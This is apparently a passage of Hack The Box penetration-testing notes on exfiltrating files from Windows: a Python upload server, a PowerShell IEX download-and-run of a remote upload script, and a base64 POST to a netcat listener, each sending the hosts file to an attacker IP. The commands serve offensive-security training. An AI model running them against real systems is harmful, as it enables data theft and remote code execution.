 ```shell-session
pip3 install uploadserver
```

#### Installing a Configured WebServer with Upload

```shell-session
AhmaDb0x@htb[/htb]$ python3 -m uploadserver

File upload available at /upload
```

#### PowerShell Script to Upload a File to Python Upload Server
```bash
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')

PS C:\htb> Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts

[+] File Uploaded:  C:\Windows\System32\drivers\etc\hosts
[+] FileHash:  5E7241D66FD77E9E8EA866B6278B2373
```


### PowerShell Base64 Web Upload

```shell-session
AhmaDb0x@htb[/htb]$ nc -lvnp 8000
```

```powershell-session
PS C:\htb> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
PS C:\htb> Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

```shell-session
AhmaDb0x@htb[/htb]$ echo <base64> | base64 -d -w 0 > hosts
```
